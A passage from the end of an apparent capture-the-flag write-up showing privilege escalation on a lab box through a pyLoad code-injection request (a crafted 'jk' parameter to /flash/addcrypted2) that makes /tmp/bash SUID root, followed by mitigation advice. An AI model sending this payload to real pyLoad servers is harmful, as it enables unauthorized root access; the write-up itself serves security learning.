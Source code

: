 ```bash

sau@pc:/opt/app$ curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"chmod%20u%2Bs%20/tmp/bash\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://localhost:8000/flash/addcrypted2'

sau@pc:/opt/app$ ls -l /tmp/bash
-rwsr-xr-x 1 root root 1183448 Jul  2 17:44 /tmp/bash
```

Finally, I used the suid bash to become root and read the flag.

```bash
sau@pc:/opt/app$ /tmp/bash -p

bash-5.0# whoami
root

bash-5.0# cat /root/root.txt
REDACTED
```

## Mitigation

The code behind the gRPC server appends data from the user directly in SQL queries. It should use [parameter substitutions](https://docs.python.org/3/library/sqlite3.html#how-to-use-placeholders-to-bind-values-in-sql-queries) to prevent SQL Injection.

The second issue is with pyLoad. The vulnerability has been fixed, so updating the application would have prevented the privilege escalation.